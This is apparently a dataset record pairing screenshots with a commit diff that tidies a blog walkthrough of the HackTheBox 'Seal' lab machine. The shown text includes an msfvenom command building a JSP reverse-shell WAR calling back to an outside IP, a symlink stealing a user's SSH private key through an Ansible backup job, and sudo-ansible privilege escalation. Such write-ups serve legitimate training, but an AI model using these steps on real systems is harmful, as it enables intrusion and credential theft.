

Before and after one commit to jcseals/jcseals.github.io, a Jekyll site: the page built from _posts/2021-11-13-htb-seal-walkthrough.md, in a window 1280 px wide and 1400 px high, scrolled down 9809 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the repository's description, which GitHub fills in, is left out; some of the changed text lies outside the part shown.

Commit message:
Clean up seal

````diff
--- a/_posts/2021-11-13-htb-seal-walkthrough.md
+++ b/_posts/2021-11-13-htb-seal-walkthrough.md
@@ -87,6 +87,7 @@ We're now able to see commit history and what looks like two repos:
 
 Looking at the infra repo first which looks like an ansible playbook or something similar, we see a git clone address so we clone it and open in vs-code:
 
+```text
 git clone http://seal.htb:8080/git/root/infra.git
 Cloning into 'infra'...
 Username for 'http://seal.htb:8080': gn0stic
@@ -97,6 +98,7 @@ remote: Getting sizes: 100% (13/13)
 remote: Compressing objects: 100% (59/59)
 remote: Total 15 (delta 1), reused 12 (delta 0)
 Unpacking objects: 100% (15/15), 2.42 KiB | 56.00 KiB/s, done.
+```
 
 There is a site.yml file that tells us we're working with tomcat 9 and some other info:
 
@@ -190,15 +192,14 @@ We can now access our webshell and run commands. To make running commands easier
 
 We can see the whoami command being executed through our webshell, and it responds that we're running as the tomcat user. This is nice, but ideally we'd like a proper shell to interact with.
 
-Many ways to accomplish this, but I just wrote a simple shell script that creates a reverse shell when executed. I had some difficulties getting a reverse shell to come back to me from our webshell, so a simple solution is to create a war payload with msfvenom:
-
+Let's create a jsp reverse shell in war format with the msfvencom tool:
 ```text
 msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.26 LPORT=9002 -f war > runme.war
 Payload size: 1100 bytes
 Final size of war file: 1100 bytes
 ```
 
-I uploaded this payload the same way we did, through the tomcat manager UI, then went to that location:
+I uploaded this payload the same way as before through the tomcat manager UI, then went to that location using the web browser to trigger the payload:
 https://seal.htb/runme/
 
 Our listener gets a hit and we have a shell:
@@ -219,16 +220,18 @@ synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups
 
 We see the run.yml has a flag "copy_links". Looking at ansible's documentation, this flag will include the copying of link files. It also notes that it copies the original file that the link points to. This means if we can write anywhere in the /var/lib/tomcat9/webapps/ROOT/admin/dashboard directory, we can make a symlink to files owned by luis, since that's who the ansible job is ran as, and the syncrhonize job will include the original file owned by Luis.
 
-I see that everyone has write access to the uploads directory in dashboard, so I make this link:
+I see that everyone has write access to the uploads directory in dashboard, so I make this symlink in that directory:
 
+```text
 ln -s /home/luis/.ssh/id_rsa id_rsa
+```
 
-Next, I wait for the sync job to run, check /opt/backups/archives to see that the new backup was created. I move it to /tmp since there is a cleanup script that will soon clear them all out.
+Next, I wait for the sync job to run, then check /opt/backups/archives to see that the new backup was created. I move it to /tmp since there is a cleanup script that will soon clear all the backups out.
 
-I gunzip and untar and luis' ssh key is there. We have the user flag and an even better ssh shell as luis.
+I gunzip and untar our compromised backup and luis' ssh key is there. We have the user flag and an even better, a ssh shell as luis.
 
 ## Privilege Escalation to Root User
-About the first thing to check for privilege escalation is sudo -l, so we run that:
+About the first thing to check for when dealing with privilege escalation is sudo -l, so we run that:
 ```text
 luis@seal:/opt/backups/playbook$ sudo -l
 Matching Defaults entries for luis on seal:
@@ -251,7 +254,7 @@ Luis can run ansible with any parameters and it'll run as root if we run it with
         var: b00m.stdout
 ```
 
-This should do it. We could take it a step further and get a shell as root, but I decided to get the flag and move on this time. This playbook is pretty straight forward. It will simple cat the root flag. Ansible syntax has us register the task / command, and we can use that with the debug flag to view the stdout of that command which will be the result of the cat command, our root flag.
+This should do it. We could take it a step further and get a shell as root, but I decided to get the flag and move on this time. This playbook is pretty straight forward. It will simply cat the root flag. Ansible syntax has us register the task / command, and we can use that with the debug flag to view the stdout of that command which will be the result of the cat command, our root flag.
 
 Let's run the playbook and see how it looks:
 ```text
@@ -276,8 +279,10 @@ PLAY RECAP *********************************************************************
 localhost                  : ok=3    changed=1    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
 ```
 
-Works great, and we can see the output of our root flag. This proves we have escalated our privileges all the way to root, and the machine is completely owned.
+Works great, and we can see it output the root flag. This proves we have escalated our privileges all the way to root, and the machine is completely compromised.
 
 
 [1]: https://app.hackthebox.com/users/13531
 [2]: https://www.hackthebox.eu
+[3]: https://www.acunetix.com/blog/articles/a-fresh-look-on-reverse-proxy-related-attacks/
+[4]: https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
````
Also changed, not shown: other parts of _posts/2021-11-13-htb-seal-walkthrough.md (+5 -5 lines).
